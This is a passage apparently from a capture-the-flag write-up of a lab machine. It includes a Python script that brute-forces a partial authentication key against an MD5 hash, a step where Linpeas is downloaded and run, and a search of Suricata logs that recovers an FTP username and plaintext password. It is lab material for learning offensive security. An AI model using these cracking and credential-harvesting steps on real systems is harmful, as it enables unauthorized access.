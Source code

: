 Python script to find the missing characters by brute-forcing all possible combinations

```python
import hashlib
import itertools

AUTH_KEY_HASH = "0feda17076d793c2ef2870d7427ad4ed"
AUTH_KEY_prefix = "UHI75GHI"

def calculate_md5(input_string):
    return hashlib.md5(input_string.encode()).hexdigest()

all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
combinations = itertools.product(all_chars, repeat=4)

for combo in combinations:
    last_4_chars = ''.join(combo)
    candidate_key = AUTH_KEY_prefix + last_4_chars
    if calculate_md5(candidate_key) == AUTH_KEY_HASH:
        print(f"AUTH_KEY: {candidate_key}")
        break
else:
    print("AUTH_KEY not found")
```

Bingo! The missing characters are `NKOP`, making the authentication key `UHI75GHINKOP`

```bash
$ python3 key.py 
AUTH_KEY: UHI75GHINKOP
```

I checked the `/opt` directory to see if there were any interesting Ansible playbooks, I found several directories: `containerd`, `ftp`, `google`, `playbooks`, and `runner2`. However, they were owned by either `root` or `sys-adm`, making it difficult to access them directly

```bash
dev_acc@intuition:/opt$ ls -la
total 28
drwxr-xr-x  7 root root    4096 Apr 10 08:21 .
drwxr-xr-x 19 root root    4096 Apr 10 07:40 ..
drwx--x--x  4 root root    4096 Aug 26  2023 containerd
drwxr-xr-x  4 root root    4096 Sep 19  2023 ftp
drwxr-xr-x  3 root root    4096 Apr 10 08:21 google
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 playbooks
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 runner2
dev_acc@intuition:/opt$ 
```

I decided to download and run Linpeas, it found a directory, `/var/log/suricata/`, which seemed promising. I used `zgrep` to search through the compressed logs for the string `lopez`

```bash
dev_acc@intuition:/var/log/suricata$ zgrep -i lopez *.gz
eve.json.8.gz:{"timestamp":"2023-09-28T17:43:36.099184+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":1,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"USER","command_data":"lopez","completion_code":["331"],"reply":["Username ok, send password."],"reply_received":"yes"}}
eve.json.8.gz:{"timestamp":"2023-09-28T17:43:52.999165+0000","flow_id":1988487100549589,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":37522,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:SLaZvboBWDjwD/SXu/SOOcdHzV8=","ftp":{"command":"PASS","command_data":"Lopezz1992%123","completion_code":["530"],"reply":["Authentication failed."],"reply_received":"yes"}}
```


[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at